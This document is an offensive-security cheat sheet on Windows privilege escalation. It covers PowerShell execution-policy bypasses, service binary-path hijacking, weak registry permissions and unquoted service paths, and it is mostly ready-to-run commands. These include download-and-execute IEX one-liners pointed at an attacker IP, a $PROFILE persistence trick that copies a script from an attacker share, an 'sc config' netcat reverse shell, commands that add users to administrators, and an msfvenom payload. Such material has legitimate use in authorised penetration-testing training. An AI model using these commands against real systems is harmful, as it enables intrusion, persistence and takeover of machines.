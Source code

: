 # Privilege Escalation

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Privilege Escalation

### Script Execution Policy Bypass Methods

<table>
  <thead>
    <tr>
      <th style="text-align:left">Bypass Method</th>
      <th style="text-align:left">Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left"><code>Set-Executionpolicy unrestricted</code>
      </td>
      <td style="text-align:left">Administrator rights are required.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Set-ExecutionPolicy -Scope CurrentUser Unrestricted</code>
      </td>
      <td style="text-align:left">Only works in the context of the current user, but requires no Administrator
        rights.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <ol>
          <li>Open .ps1 file in text editor.</li>
          <li>Copy all text in the file</li>
          <li>Paste into PowerShell</li>
        </ol>
      </td>
      <td style="text-align:left">PowerShell will run each line of the script one at a time, essentially
        the same as running the script.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>function &lt;name&gt; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Similar to the above example, however you paste your code inside the curly
        braces, and run the code by typing the <code>&lt;name&gt;</code> of your
        function. Allows for <b>code reuse without having to copy and paste multiple times.</b>
      </td>
    </tr>
    <tr>
      <td style="text-align:left"><code>cat $script | IEX</code>
      </td>
      <td style="text-align:left">Pipes the content of the script to the <code>Invoke-Expression</code> cmdlet,
        which runs any specified string as a command and returns the results to
        the console. <code>IEX</code> is an alias for <code>Invoke-Expression</code>.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>IEX { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Essentially creates a one-time use function from your code.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>&amp; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">The operator (<code>&amp;</code>) is an alias for <code>Invoke-Expression</code> and
        is equivelent to the example above.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p><code>$text = Get-Content $text_file -Raw</code>
        </p>
        <p><code>$script = [System.Management.Automation.ScriptBlock]::Create($text)</code>
        </p>
        <p>&lt;code&gt;&lt;/code&gt;</p>
        <p><code>&amp; $script</code>
        </p>
      </td>
      <td style="text-align:left">Using the .NET object <code>System.Management.Automation.ScriptBlock</code> we
        can compile and text content to a script block. Then, using (<code>&amp;</code>)
        we can easily execute this compiled and formatted text file.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Echo IEX(New-Object Net.WebClient).DownloadString(http://$ip:$port/$filename.ps1) | PowerShell -NoProfile -</code>
      </td>
      <td style="text-align:left">Download script from attacker&apos;s machine, then run in PowerShell,
        in memory. No files are written to disk.</td>
    </tr>
  </tbody>
</table>

### Other Bypass Methods

#### Execute .ps1 scripts on compromised machine: in memory and other bypass methods

If your are able to use `Invoke-Expresion` \(`IEX`\) this module can be imported using the following command. You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run. Notice the .ps1 extension. When using `downloadString` this will need to be a ps1 file to inject the module into memory in order to run the cmdlets.

```text
IEX (New-Object -TypeName Net.WebClient).downloadString("http://$attacker_ip/$script.ps1")
```

`IEX` is blocked from users in most cases and `Import-Module` is monitored by things such as ATP. Downloading files to a target's machine is not always allowed in a penetration test. Another method to use is `Invoke-Command`. This can be done using the following format.

```text
Invoke-Command -ComputerName $computer -FilePath .'\$module.ps1m' -Credential (Get-Credential)
```

This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the `$PROFILE` file.

```text
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\$attacker_ip>\$script.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

## Services

#### Modify service binary path \(_link to persistence pages_\)

If one of the groups you have access to has SERVICE\_ALL\_ACCESS in a service, then it can modify the binary that is being executed by the service. To modify it and execute nc you can do:

```text
sc config <service_Name> binpath= "C:\nc.exe -nv <IP> <port> -e C:\WINDOWS\System32\cmd.exe"
//use SYSTEM privileged service to add your user to administrators group
sc config <service_Name> binpath= "net localgroup administrators <username> /add"
//replace executable with your own binary (best to only do this for unused services!)
sc config <service_name> binpath= "C:\path\to\backdoor.exe"
```

#### Service Permissions \(_link to persistence pages_\)

Other Permissions can be used to escalate privileges: SERVICE\_CHANGE\_CONFIG Can reconfigure the service binary WRITE\_DAC: Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG WRITE\_OWNER: Can become owner, reconfigure permissions GENERIC\_WRITE: Inherits SERVICE\_CHANGE\_CONFIG GENERIC\_ALL: Inherits SERVICE\_CHANGE\_CONFIG To detect and exploit this vulnerability you can use exploit/windows/local/service\_permissions

Check if you can modify the binary that is executed by a service. You can get every binary that is executed by a service using wmic \(not in system32\) and check your permissions using icacls:

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use sc.exe and icacls:

```text
sc.exe query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

#### Services registry permissions \(_link to persistence pages_\)

You should check if you can modify any service registry. You can check your permissions over a service registry doing:

```text
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl. In that case you can change the binary that is going to be executed by the service. To change the Path of the binary executed: `reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f`

#### Unquoted Service Paths \(_link to persistence pages_\)

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space. For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:

```text
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths \(minus built-in Windows services\)

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services
```

-or-

```text
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
    for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
        echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
    )
)
```

-also-

```text
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

You can detect and exploit this vulnerability with metasploit: `exploit/windows/local/trusted_service_path` You can manually create a service binary with msfvenom: `msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe`

### References

* [http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled](http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled) - [@KunalAdapi](https://twitter.com/kunalUdapi)
* [https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

